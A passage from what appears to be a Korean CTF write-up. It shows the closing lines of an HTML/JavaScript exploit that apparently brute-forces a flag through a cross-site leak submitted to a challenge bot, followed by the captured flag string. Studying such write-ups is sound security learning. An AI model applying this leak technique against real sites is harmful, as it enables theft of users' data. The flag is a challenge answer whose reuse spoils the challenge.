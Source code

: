 ```html
                for ( let i = 0; i < string.length; i ++) {
                    xs(flag, string[i])
                }
            }

            broute_force(flag);
        </script>
    </body>
</html>
```


![image](https://user-images.githubusercontent.com/49112423/129514189-90b0699c-6f47-47b7-b49d-68fe1dd7a614.png)

위와 같이 익스플로잇 코드를 작성 후에 봇으로 넘겨주니 위와 같이 플래그를 뽑을 수 있었습니다.

```plaintext
FLAG : inctf{red_dead_rezoday_ialmvwoawpwe}
```

